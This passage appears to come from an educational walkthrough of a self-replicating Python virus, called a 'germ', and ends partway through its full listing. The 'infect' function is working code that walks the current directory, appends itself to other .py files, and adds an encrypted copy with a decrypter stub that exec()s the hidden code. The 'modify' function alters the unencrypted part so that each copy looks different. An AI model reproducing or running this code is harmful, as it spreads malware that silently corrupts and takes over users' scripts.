 - **modify** function: this function is responsible for deleting previous "passes" and adding new ones to each of the 
  unencrypted functions.
```python
def modify(code):
    new_code = []
    separator = chr(10) + chr(10) + chr(10)
    functions = code.split(separator)
    for text in functions:
        if text:
            code_without_pass = delete_pass(text)
            code_with_pass = add_pass(code_without_pass)
            new_code.append(code_with_pass)
        else:
            new_code.append(text)
    return separator.join(new_code)
```

- **infect** function: this function does the same as before, but now:
  - Instead of getting the part and clear and the part to be encrypted using a fixed value, you get by looking for the 
    position of the cipher function.
  - The function modify is called so the code that is not encrypted is different.
  - The decrypter code no longer has the fixed value to indicate the length of the decrypted part; it is now calculated 
    based on the size of the modified code.
```python
def infect(virus):
    import os
    for file in os.listdir("."):
        if file.endswith(".py"):
            script = open(file, "r+")
            text_script = script.read()
            if "def calculate_key" not in text_script:
                plain_part = virus[:virus.find("def encrypt")]
                part_to_encrypt = virus[virus.find("def encrypt"):]
                modified_plain_part = modify(plain_part)
                key = calculate_key(text_script)
                encrypted_part = encrypt(part_to_encrypt, key)
                script.write(modified_plain_part)
                decrypter = "import sys" + chr(10) + "host = open(sys.argv[0], " + chr(34) + "r" + chr(34) + ")" + chr(10) + "host_text = host.read()" + chr(10) + "host.close()" + chr(10) + "plain_part = host_text[host_text.find(" + chr(34) + "def calculate_key" + chr(34) + "):host_text.find(" + chr(34) + "def calculate_key" + chr(34) + ")+" + str(len(modified_plain_part)) + "]" + chr(10) + "key = calculate_key(host_text)" + chr(10) + "decrypted_text = decrypt(" + chr(34) + chr(34) + chr(34) + encrypted_part + chr(34) + chr(34) + chr(34) + ", key)" + chr(10) + "exec(decrypted_text)" + chr(10) + "run(plain_part + decrypted_text)"
                script.write(decrypter)
            script.close()
```

The other functions of the germ (calculate_key, decrypt, encrypt, payload, and run) and global code have not changed. 
That said, the full code for this germ is as follows:
```python
def calculate_key(text):
    if len(text) >= 3:
        key = ord(text[0]) + ord(text[1]) + ord(text[2])
    else:
        key = 42
    return key


def decrypt(text, key):
    decrypted_text = ""
```